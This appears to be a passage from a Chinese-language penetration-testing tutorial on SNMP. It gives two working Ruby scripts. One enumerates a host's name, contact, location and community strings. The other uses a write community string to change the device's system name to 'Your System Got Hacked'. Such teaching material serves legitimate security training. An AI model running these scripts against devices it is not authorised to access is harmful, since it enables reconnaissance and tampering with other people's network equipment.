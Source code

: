 ## 获取请求

错误配置 SNMP 服务会给攻击者带来大量信息。让我们看看我们如何与服务器交互以检索一些信息。

```
# KING SABRI | @KINGSABRI
require 'snmp'

# Connect to SNMP server
manager = SNMP::Manager.new(:host => '192.168.0.17')

# General info
puts "SNMP Version: " + manager.config[:version]
puts "Community: " + manager.config[:community]
puts "Write Community: " + manager.config[:WriteCommunity]

# Get hostname, contact and location
hostname = manager.get("sysName.0").each_varbind.map {|vb| vb.value.to_s}       # manager.get("sysName.0").varbind_list[0]
contact  = manager.get("sysContact.0").each_varbind.map {|vb| vb.value.to_s}    # manager.get("sysContact.0").varbind_list[0]
location = manager.get("sysLocation.0").each_varbind.map {|vb| vb.value.to_s}   # manager.get("sysLocation.0").varbind_list[0]

# It would take an array of OIDs
response = manager.get(["sysName.0", "sysContact.0", "sysLocation.0"])
response.each_varbind do |vb|
    puts vb.value.to_s
end 
```

> 注意：OID 名称区分大小写

## 设置请求

有时我们会得到 SNMP 的私有/管理字符串。此时，我们可能能够对系统、路由器、交换机配置进行更改。

```
require 'snmp'
include SNMP

# Connect to SNMP server
manager = SNMP::Manager.new(:host => '192.168.0.17')
# Config our request to OID
varbind = VarBind.new("1.3.6.1.2.1.1.5.0", OctetString.new("Your System Got Hacked"))
# Send your request with varbind our settings
manager.set(varbind)
# Check our changes
manager.get("sysName.0").each_varbind.map {|vb| vb.value.to_s}
manager.close 
```

* * *
